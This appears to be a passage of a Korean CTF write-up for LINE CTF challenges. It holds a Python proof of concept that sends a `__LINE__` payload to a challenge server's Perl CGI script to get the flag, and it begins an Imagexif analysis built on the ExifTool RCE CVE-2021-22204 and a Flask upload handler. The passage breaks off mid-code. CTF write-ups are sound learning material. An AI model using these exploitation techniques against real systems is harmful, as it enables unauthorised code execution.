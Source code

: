 ```perl
```
{: file="main.pl"}
<br/>

## PoC Code
***
[Perl](https://perldoc.perl.org/functions) 공식 문서를 보면 Alphabetical한 function에 `__LINE__`이라는 것이 있는데 <u>소스코드에서 현재 줄 번호</u>를 반환합니다. 로컬에서 테스트했을 때 `__LINE__`의 값은 `1`이길래 아래와 같이 전달하여 해결할 수 있었습니다.  
```python
from requests import get
from re import search

info = lambda x : print(f"[+] {x}")

URL ="http://104.198.120.186:11006"
PAYLOAD = "20230326-__LINE__"
FLAG =""

res = get(f"{URL}/cgi-bin/main.pl?password={PAYLOAD}")
m = search(r"LINECTF{.*?}",res.text)

if m :
    FLAG = m.group()
    info(f"Flag is {FLAG}")
else :
    print("[-] Failed to find the flag")
```
{: file="pal.py"}
<br/>



# Imagexif (152pt)
***
해당 문제는 `ExifTool` `12.22`버전으로 [CVE-2021-22204](https://blog.convisoappsec.com/en/a-case-study-on-cve-2021-22204-exiftool-rce/)의 영향을 받습니다. 아래 코드처럼 사진을 업로드하면 `metadata`만 출력하기 때문에 취약점의 `PoC`처럼 코드의 실행결과를 직접 볼 수는 없습니다. 하지만 38 번째 줄의 `ExifToolJSONInvalidError`를 일으키면 `re.findAll()`에서 정규표현식의 조건을 맞추어 `ast.literal_eval()`를 실행시킬 수 있습니다. 이 메서드는 `eval`과 같은 강력한 기능은 할 수 없지만 `key-value`형태로 실행이 가능합니다. 그리고 이 메서드를 실행한 결과를 `metadata` 변수에 담아서 다시 랜더링합니다.  
```python
... 

@app.route('/upload', methods=["GET","POST"])
def upload():
    try:
        if request.method == 'GET':
            return render_template(
            'upload.html.j2')
        elif request.method == 'POST':
            if 'file' not in request.files:
                return 'there is no file in form!'
            file = request.files['file']
            if file and allowed_file(file.filename):
                _file = file.read()
                tmpFileName = str(uuid.uuid4())
                with open("tmp/"+tmpFileName,'wb') as f:
                    f.write(_file)
                    f.close()
                    tags = exifread.process_file(file)
                    _encfile = base64.b64encode(_file)
                    try:
                        thumbnail = base64.b64encode(tags.get('JPEGThumbnail'))
```